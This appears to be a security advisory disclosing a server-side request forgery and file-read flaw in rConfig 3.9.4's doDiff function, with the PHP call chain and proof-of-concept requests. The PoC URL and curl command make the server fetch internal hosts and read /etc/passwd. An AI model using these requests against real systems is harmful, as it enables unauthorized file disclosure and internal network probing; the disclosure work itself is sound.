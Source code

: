 # SSRF vulnerability in `doDiff` Function of `classes/compareClass.php` File (rConfig 3.9.4 version)

## 0x01 Affected version

vendor: http://www.rconfig.com/

version: 3.9.4

php version: 7.x

## 0x02 Vulnerability description

A Server-Side Request Forgery (SSRF) in `doDiff` function of rConfig 3.9.4 allows remote attackers to force the application to make arbitrary requests via injection of arbitrary URLs into the `path_a` parameter. We should note that the vulnerability requires authentication to trigger.



The vulnerable code is located in the `doDiff()` function in the `classes/compareClass.php` file. Because the file `www/lib/crud/configcompare.crud.php` does not perform sufficient checksumming on the `path_a` parameter, the taint is introduced from the `$url` variable into the tainted function `file` at the file `classes/compareClass.php`, and after the `file` function is executed it sends a request to the URL specified by the `path_a` parameter, eventually leading to an SSRF vulnerability.



Function call stack information related to the SSRF vulnerability.

```PHP
<?php
// www/lib/crud/configcompare.crud.php
$path_a = stripslashes(str_replace('"', "", $_GET['path_a']));
$path_b = stripslashes(str_replace('"', "", $_GET['path_b']));
$linepadding = $_GET['linepadding'];
...
$diff = new diff;
if ($linepadding >= 1 && $linepadding <= 99) { //if linepadding var is number and is between 1 and 99
    $text = $diff->inline($path_a, $path_b, $linepadding);
} else {
    $text = $diff->inline($path_a, $path_b);
}
...

// classes/compareClass.php
function inline($old, $new, $linepadding = null) {
		...
		$diff = $this->diffWrap($old, $new);
		...
}

// classes/compareClass.php
function diffWrap($old, $new) {       
    $this->diff = $this->doDiff($old, $new);
		...
}

// classes/compareClass.php
function doDiff($old, $new) {
    if (!is_array($old))
        $old = file($old);
    if (!is_array($new))
        $new = file($new);
		...
}
```

Because the `path_a` parameter is unrestricted, it is also possible to use the server side to send requests, such as probing intranet web services. The corresponding PoC is as follows:

```
http://172.16.119.147/rconfig/www/lib/crud/configcompare.crud.php?path_a=file:///etc/passwd&path_b=http://172.16.119.1/zfuzz
```



This vulnerability can lead to arbitrary file reads, for example if we use the `file://`protocol to read the `/etc/passwd` file



![image-20230721190417250](./assets/image-20230721190417250.png)



This vulnerability could also allow an attacker to make requests for arbitrary resources.

![image-20230721193157251](./assets/image-20230721193157251.png)



You can also use the following curl command to verify the vulnerability. (Note that you need to update the token information for authentication.)

```
curl -i http://172.16.119.147/rconfig/www/lib/crud/configcompare.crud.php\?path_a\=http://172.16.119.1/flag567\&path_b\=/etc/passwd
```



## 0x03 Acknowledgement

z3

